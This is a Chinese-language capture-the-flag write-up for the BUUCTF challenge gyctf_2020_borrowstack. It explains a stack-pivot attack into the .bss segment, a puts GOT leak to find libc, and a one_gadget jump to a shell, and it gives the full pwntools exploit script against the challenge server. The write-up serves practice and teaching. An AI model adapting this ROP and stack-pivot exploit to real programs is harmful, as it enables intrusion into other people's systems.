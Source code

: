 # buu062-gyctf_2020_borrowstack
栈迁移。常规的栈迁移方法是返回到leave指令，之前修改rbp到合适的值。我们将rbp修改到bss段的内部，将栈迁移到这里。需要注意不能将栈迁移到变量bank的开头，因为后面还需要调用puts等函数，往上可能会覆盖某些重要数据。因此迁移的地址应该尽量靠后（下面脚本中迁移的地址是bank+0xA0）。使用puts函数读取got表，获取到libc版本，然后使用one_gadget即可getshell。（经过尝试，本题使用system("/bin/sh")不可行，原因不明）

```python
from pwn import *
from LibcSearcher import *
context.log_level = 'debug'
# io = process('./pwn')
io = remote('node4.buuoj.cn', 29767)
elf = ELF('./pwn')

addrsp_8_ret = 0x4004c5
pop3_ret = 0x4006ff
poprdi_ret = 0x400703
poprsi_r15_ret = 0x400701
gadget = 0x4006FA
one_gadgets = [0x45216, 0x4526a, 0xf02a4, 0xf1147]

payload = cyclic(0x60)
payload += p64(0x601080 - 8 + 0xA0)    # new ebp
payload += p64(0x400699)    # leave

io.sendafter(b'Tell me what you want\n', payload)

payload = cyclic(0xA0)
payload += p64(poprdi_ret)
payload += p64(elf.got['puts'])
payload += p64(elf.plt['puts'])
payload += p64(poprdi_ret)
payload += p64(0)
payload += p64(poprsi_r15_ret)
payload += p64(0x601080 + 0x48 + 0xA0)
payload += p64(0xdeadbeef)
payload += p64(elf.plt['read'])	# 仅设定了read函数的前两个参数，第三个参数size没有设置，但是是一个很大的值
io.sendafter(b'stack now!\n', payload)
puts = u64(io.recv(6) + b'\x00\x00')

libc = LibcSearcher('puts', puts)
base = puts - libc.dump('puts')
payload = p64(base + one_gadgets[3])

io.send(payload)
io.interactive()
```
# buu063-others_babystack
简单的canary泄露栈溢出。

